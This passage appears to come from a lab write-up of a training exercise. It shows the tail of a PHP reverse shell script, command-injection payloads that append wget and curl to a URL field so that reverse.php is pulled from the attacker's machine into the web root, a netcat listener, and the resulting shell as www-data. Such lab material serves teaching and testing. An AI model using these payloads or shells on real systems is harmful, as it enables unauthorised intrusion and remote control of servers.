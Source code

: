 ```

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

put your ip and your port, and then input a wget command to go and upload your file on the server ->

```
https://tcm-sec.com \n wget 172.16.X.X:9898/reverse.php
```

just to be sure it went through, we can look at our listener:                                                                                                                &#x20;

<pre><code><strong>┌──(root㉿kali)-[/home/kali]
</strong>└─# python -m http.server 9898
Serving HTTP on 0.0.0.0 port 9898 (http://0.0.0.0:9898/) ...
172.X.X.X - - [31/Jan/2024 11:03:15] code 404, message File not found
172.X.X.X - - [31/Jan/2024 11:03:15] "HEAD /test HTTP/1.1" 404 -
172.X.X.X - - [31/Jan/2024 12:27:14] "HEAD /reverse.php HTTP/1.1" 200 -
</code></pre>

we see a status 200 on our reverse.php file that we modified with our ip and port

(there were some modifications on the server while writing the write-up, new payload is:)&#x20;

```
https://tcm-sec.com && curl 172.16.X.X:9898/reverse.php > /var/www/html/reverse.php
```

we set up a listener with a&#x20;

```
nc -nvlp 4444
```

and if the new payload is successful on our HTTP server with a code 200, we go and check the webpage where it stored our file → localhost/reverse.php

and if everything is well done on our netcat listener, we get a&#x20;

```
┌──(root㉿kali)-[/home/kali]
└─# nc -nlvp 4444    
listening on [any] 4444 ...
connect to [172.16.X.X] from (UNKNOWN) [172.18.X.X] 56136
Linux e4ce52282ed6 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 GNU/Linux
 18:50:53 up  9:32,  0 users,  load average: 0.76, 0.63, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
